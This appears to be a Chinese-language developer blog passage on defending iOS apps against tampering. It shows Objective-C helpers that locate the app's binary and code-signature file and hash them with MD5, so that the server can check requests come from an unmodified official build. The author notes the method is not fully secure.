所以，在有些情况下，尤其是和钱有关系的app，我们有必要在和服务器通信时，让服务器知道客户端到底是不是官方正版的app。

 

何以判断自己是不是正版app呢？hackers们破解你的app，无非就2个地方可以动，1个是二进制，1个是资源文件。

 

二进制都重新编译过了自然肯定是盗版……

 

有些低级的hackers喜欢修改人家的资源文件然后贴上自己的广告，或者给用户错误的指引……修改资源文件是不需要重新编译二进制的。

 

因此，我们有必要在敏感的请求报文中，增加正版应用的二进制和资源文件的标识，让服务器知道，此请求是否来自正版的未经修改的app。

 

在沙盒中，我们可以读到自己程序的二进制，也可以读到资源文件签名文件，这两个文件都不算大，我们可以对其取md5值然后以某种组合算法得到一个标记字符串，然后发给服务器。

 

我封装了相关文件的读取地址

    @implementation WQPathUtilities   
       
    + (NSString *)directory:(NSSearchPathDirectory)dir   
    {   
        NSArray *paths = NSSearchPathForDirectoriesInDomains(dir, NSUserDomainMask, YES);   
        NSString *dirStr = [paths objectAtIndex:0];   
        return dirStr;   
    }   
       
    + (NSString *)documentsDirectory   
    {   
        return [WQPathUtilities directory:NSDocumentDirectory];   
    }   
       
    + (NSString *)cachesDirectory   
    {   
        return [WQPathUtilities directory:NSCachesDirectory];   
    }   
       
    + (NSString *)tmpDirectory   
    {   
        return NSTemporaryDirectory();   
    }   
       
    + (NSString *)homeDirectory   
    {   
        return NSHomeDirectory();   
    }   
       
    + (NSString *)codeResourcesPath   
    {   
        NSString *excutableName = [[NSBundle mainBundle] infoDictionary][@"CFBundleExecutable"];   
        NSString *tmpPath = [[WQPathUtilities documentsDirectory] stringByDeletingLastPathComponent];   
        NSString *appPath = [[tmpPath stringByAppendingPathComponent:excutableName]   
                             stringByAppendingPathExtension:@"app"];   
        NSString *sigPath = [[appPath stringByAppendingPathComponent:@"_CodeSignature"]   
                             stringByAppendingPathComponent:@"CodeResources"];   
        return sigPath;   
    }   
       
    + (NSString *)binaryPath   
    {   
        NSString *excutableName = [[NSBundle mainBundle] infoDictionary][@"CFBundleExecutable"];   
        NSString *tmpPath = [[WQPathUtilities documentsDirectory] stringByDeletingLastPathComponent];   
        NSString *appPath = [[tmpPath stringByAppendingPathComponent:excutableName]   
                             stringByAppendingPathExtension:@"app"];   
        NSString *binaryPath = [appPath stringByAppendingPathComponent:excutableName];   
        return binaryPath;   
    }   
       
    @end   

md5方法：

    #import "CommonCrypto/CommonDigest.h"   
       
    +(NSString *)md5WithString:(NSString *)string   
    {   
        const charchar *cStr = [string UTF8String];   
        unsigned char result[CC_MD5_DIGEST_LENGTH];   
        CC_MD5(cStr, strlen(cStr), result);   
           
        return [[NSString stringWithFormat:@"%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X",   
                 result[0], result[1], result[2], result[3],   
                 result[4], result[5], result[6], result[7],   
                 result[8], result[9], result[10], result[11],   
                 result[12], result[13], result[14], result[15]   
                 ] lowercaseString];   
    }   

这样做就100%安全了吗？

 

答案是：不……

 

所谓魔高一尺，道高一丈，不过也能阻止一些低级的hack手段了～